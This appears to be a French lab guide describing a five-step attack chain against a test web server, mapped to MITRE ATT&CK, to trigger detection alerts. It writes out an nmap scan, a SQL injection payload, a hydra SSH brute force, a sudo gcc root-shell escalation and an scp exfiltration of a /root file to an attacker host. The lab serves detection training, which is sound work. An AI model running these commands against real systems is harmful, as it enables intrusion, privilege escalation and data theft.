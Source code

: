 
# Scénarios d'attaque

## Attaque 1 - Ping et Scan de ports

L’attaquant étant déjà sur le réseau, il a déjà sondé ce dernier afin de découvrir quels sont les appareils présents. Son attention se porte sur un serveur web dont il scanne les ports. Le balayage de ports permet de récupérer beaucoup d’informations sur la cible, notamment ses ports ouverts.

Tout d'abord, pour vérifier si le serveur qu'il veut attaquer est actif, il va pouvoir effectuer un ping comme suit :

`ping 10.0.0.1`

Une alerte est attendue.

Pour le MITRE, cela correspond dans la phase Reconnaissance au Active Scanning (https://attack.mitre.org/techniques/T1595), on scanne activement une machine et cela peut laisser des traces, c’est plus visible qu’une sonde, mais récolte beaucoup plus d’informations. 

L’outil utilisé ici est **nmap**, un scanner de ports qui permet d’avoir une meilleure idée de la surface d’attaque disponible sur le serveur web.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant : 

`nmap 10.0.0.1`

2 ports devraient être ouverts sur le serveur web : **SSH** (port 22) et **HTTP** (port 80)

Une alerte est attendue.


## Attaque 2 - Récupération des noms utilisateurs par injection SQL

Le service SSH étant inutilisable pour l’instant, l’attaquant se concentre sur l’application web publique hébergée sur le serveur. Il s’agit d’un outil interne permettant aux employés de trouver le contact des autres en donnant leur nom. Coup de chance, l’application est vulnérable : elle est susceptible d’accepter des requêtes non vérifiées vers la base de données. En exploitant une vulnérabilité d’injection SQL, il interroge donc la base MariaDB pour lister tous les employés et récupérer au moins un nom d’utilisateur utilisable pour les étapes ultérieures. 

L’objectif est d’obtenir des informations d’identification partielles sans nécessité d’accès shell initial.
Pour le MITRE, cela correspond dans la phase Initial Access à Exploitation of Public-Facing Application et SQL Injection (https://attack.mitre.org/techniques/T1190). L’injection SQL est une technique d’accès applicatif qui laisse des traces dans les logs HTTP et dans les logs de la base, et qui peut générer des motifs détectables par un IDS si les payloads sont visibles.

L’outil utilisé sera le navigateur web Firefox (installé par défaut avec Debian).

L’attaque se réalise comme ceci à partir de la VM de l’attaquant : 

Naviguez vers http://10.0.0.1/index.php

Effectuez l’injection SQL suivante dans le formulaire web : 

`' or 1=1#`

Cela devrait retourner la liste complète des employés de l’entreprise en prenant avantage du code php vulnérable du serveur. Parmi ceux-ci, l’attaquant remarque **bob**, développeur web. Il a probablement travaillé sur ce serveur, et il vaut donc le coup de s’intéresser à son accès.

Une alerte est attendue.

## Attaque 3 - Brute-force sur un utilisateur

Après identification d’un nom d’utilisateur valide (‘bob’), qui signifie qu’il existe très probablement un utilisateur bob dans le serveur web, l’attaquant lance une attaque par dictionnaire contre le service SSH de la machine vulnérable afin d’obtenir une session authentifiée avec accès au shell. 

L’objectif est d’obtenir un accès au système, en testant de manière automatique une liste de mots de passe issue d’un dictionnaire sur un nom d'utilisateur connu.
Pour le MITRE, cela correspond dans la phase Credential Access au Brute Force (https://attack.mitre.org/techniques/T1110). Les tentatives répétées génèrent des échecs d’authentification visibles dans les logs d’authentification système et peuvent déclencher des règles de détection basées sur des taux d’échec élevés.  

L’outil utilisé ici sera **hydra**, un outil permettant de lancer diverses attaques de force brute au travers de différents protocoles (ftp, ssh, etc) à l’aide de liste d’identifiants et mots de passe fournis.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant (en supposant toujours être dans le dossier /root): 

`hydra -l bob -P wordlist.txt ssh://10.0.0.1`

wordlist.txt contient une petite liste de mots de passe faibles.

Cette ligne devrait apparaître : 

`[22][ssh] host: 10.10.212.228   login: bob   password: password`

Il semblerait donc que bob utilise un mot de passe beaucoup trop faible (‘password’), permettant ainsi à l’attaquant de se connecter en tant que bob sur le serveur web avec cette commande, puis en rentrant le mot de passe trouvé : 

`ssh bob@10.0.0.1`

Une alerte est attendue.

## Attaque 4 - Escalade de privilège sur le serveur 

Une fois connecté en tant que bob, l’attaquant se rend compte qu’il ne possède pas les permissions nécessaires pour pouvoir accéder à l’ensemble des fichiers du serveur. En revanche, de par son statut de développeur, bob possède certains privilèges. L’attaquant exécute `sudo -l` et voit que bob peut utiliser le compilateur **gcc** en tant que root. 

L’objectif est d’obtenir un accès privilégié au système, en utilisant des techniques dites d’escalation de privilège.
Pour le MITRE, cela correspond dans la phase Privilege Escalation au Abuse Elevation Control Mechanism (https://attack.mitre.org/techniques/T1548). Cela lui permet d’obtenir des permissions supérieures.

L’outil utilisé ici sera **gcc**, un outil de compilation pouvant servir de vecteur d’attaque s’il est exécuté avec des privilèges.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant (en tant que bob sur le serveur web): 

`sudo gcc -wrapper /bin/sh,-s .`

Cette commande permet de garder les privilèges obtenus en utilisant gcc pour exécuter un shell.

En faisant whoami, cela devrait renvoyer root. L’attaquant a donc un accès total au serveur web.

Une alerte est attendue.

## Attaque 5 - Exfiltration de données

Après prise de contrôle de privilèges, l’attaquant réalise l’exfiltration d’un fichier ciblé depuis la machine compromise vers une machine contrôlée par l’attaquant. Le transfert est réalisé via un canal chiffré standard (scp/SSH) afin de réduire la visibilité du contenu, en s’appuyant sur une connexion sortante autorisée ou nouvellement établie. 

L’objectif est de voler des données d’intérêt pour l’attaquant, en l'occurrence next_prime_minister_of_canada.jpg situé dans le dossier /root. Cette image est critique pour la sécurité du premier ministre.
Pour le MITRE, cela correspond dans la phase Exfiltration à Exfiltration Over Alternative Protocols(https://attack.mitre.org/techniques/T1048). L’exfiltration chiffrée masque le contenu mais laisse des métadonnées réseau (endpoints, volumes, durée) exploitables pour la détection.

L’outil utilisé ici sera **scp**, un outil permettant de copier des fichiers de manière sécurisée sur le réseau à l’aide du protocole SFTP sur une connexion SSH.

L’attaque se réalise comme ceci :

`scp /root/next_prime_minister_of_canada.jpg debian@10.0.0.3:/home/debian` 

Puis se connecter en donnant le mot de passe de la VM attaquant.

Si tout s’est bien passé, l’image devrait être accessible sur la VM attaquant, et nous vous laissons découvrir ce fichier primordial pour la sécurité du Canada.

Une alerte est attendue.

